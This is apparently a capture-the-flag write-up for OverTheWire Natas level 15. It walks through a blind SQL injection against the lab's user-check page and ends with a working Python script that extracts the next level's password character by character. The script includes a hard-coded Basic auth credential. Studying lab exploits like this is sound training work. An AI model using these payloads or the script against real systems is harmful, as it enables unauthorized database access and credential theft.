 # Natas Level 15
Pushing things further, this level deals with Blind SQL injection. We'll make a python script as well.

##  Quest
We are presented with a simple page that checks if a user exists or not.
![Level 15 Image](./images/Level15.png)

Backend code is similar to previous level with some important changes
```php
<?
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
    // If there is no error, we will get one of two response, depending on user input
    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```
<br/>
## Solution
From the source code, we can see that<br/>
 - Again <span id=yellow>unsanitized</span> user input is inserted into the query.<br/>
 - Although no output is displayed after query execution, we can make use of <span id=green>blind SQL injection</span>.<br/>
 - When query succeeds, we get _user exists_, and when it fails, we get _user doesn't exist_ msg.<br/>
 - Additionally, we can see that there is a debug parameter, which displays query on screen.<br/>
 - Lastly, there is a users table with `username` and `password` column.<br/>

Here is what was done.
1. Firstly, check if user `natas16` exist, it does, and we want its password.
2. Below is log from local linux lab to make use of `ascii` and `substring` functions to smuggle the password.<br/>


```sql
-- Testing query in Lab
-- Our Sample table
mysql> select * from books;
+---------+--------------+-----------+----------+
| book_id | name         | author    | released |
+---------+--------------+-----------+----------+
|       1 | Big Magic    | Elizabeth |        1 |
|       2 | Brown Farm   | AK        |        0 |
|       3 | Malgudi Days | R.K.N     |        1 |
+---------+--------------+-----------+----------+
3 rows in set (0.00 sec)

-- We compare first character of author name with ascii code  
-- Below is a successful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
+---------+-----------+-----------+----------+
| book_id | name      | author    | released |
+---------+-----------+-----------+----------+
|       1 | Big Magic | Elizabeth |        1 |
+---------+-----------+-----------+----------+
1 row in set (0.00 sec)

-- Below is an unsuccessful attempt
mysql> select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 70;
Empty set (0.00 sec)
```

Lets focus on second query
```sql
select * from books where name = 'Big Magic' and ASCII(SUBSTRING(author, 1, 1)) = 69;
```
`SUBSTRING(author, 1, 1)` refers to the first character and `ASCII` converts that first character to its ASCII code.
So, Above query will return a row if the ASCII code of first character of the name of author is equal to 69, i.e. E

We build our payload accordingly:<br/>
<span id=green>  Our payload -></span> `GET /index.php?username=natas16" AND ASCII(SUBSTRING(password,1,1))=65;#&debug=true HTTP/1.1`<br/>
Here, we are checking if the first character of password of user <u>natas16</u> has ascii code of 65 .i.e. A<br/>

Below is screenshot of our failed attempt in Burp. (Note the response _user doesn't exist_)

![Level 15 solution](./images/Level15_solution.png)

Below is a successfull attempt, our password begins with 'W', ascii code 87. (Note the response _user exists_)

![Level 15.1 solution](./images/Level15.1_solution.png)

Instead of manually searching for password char by char, we use <span id=green>Burp intruder</span>.<br/><br/>
We manually change `password(1,1)` -> `password(2,1)` for finding second character and so on. This process will repeat till we find all characters. Here password is 32 characters long. On 33rd attempt, intruder will not find any character and we know that we are done.

Intruder settings for the same are shown below
![Level 15.2 solution](./images/Level15.2_solution.png)

Intruder Payload settings are below. Now we start attack!.
![Level 15.3 solution](./images/Level15.3_solution.png)

Below is the screenshot of discovering the second password character.
![Level 14.4 solution](./images/Level15.4_solution.png)

We repeat this process 32 times to get the complete password for next Level.<br/><br/>It took me about an hour to smuggle password char by char with Burp community addition, so i decided to write a script to do the same, just for the fun of it.
<br/><br/>
This script does blind mysql injection till all password characters are revealed
```python
 1 #!/usr/bin/env python3
 2
 3 import requests
 4 # Should have used auth, but it works for now.
 5 headers = {'Authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='}
 6 
 7
 8 password = ""
 9 pos = 1
10
11 while True:
12     if password:
13         payload = f'natas16" AND password = \'{password}\' ;#'
14         data = {'username': payload}
15         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers)
16         if response.status_code == 200  and "This user exists" in response.text:
17             print(f"\r{password}", end='', flush=True)
18             break
19
20     for i in range(33,128):
21         print(f"\r{password}{chr(i)}", end='', flush=False)
22         payload = f'natas16" AND ASCII(SUBSTRING(password,{pos},1)) = {i};#'
23         data = {'username': payload}
24         response = requests.post('http://natas15.natas.labs.overthewire.org/', data=data, headers=headers)
25         if response.status_code == 200:
26             if 'This user exists.' in response.text:
27                 password += chr(i)
28                 print(f"\r{password}{chr(i)}", end='', flush=True)
29                 #print(password)
30                 break
31             elif "This user doesn't exist" in response.text:
32                 continue
33             elif i == 127:
34                 break
35             else:
36                 print('Program flow should not reach here. Exiting')
37                 #return 2
38         else:
39             print(f"Status code: {response.status}")
40     pos += 1
41 # todo: refactor the code
```
<br/>
I Added a cool effect that displays the found characters and also searches for next character.

Below is a sample run of the script

<img src="https://grey-fish.github.io/Natas/images/natas15.gif">

<span id=green>Thats all folks!</span>

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
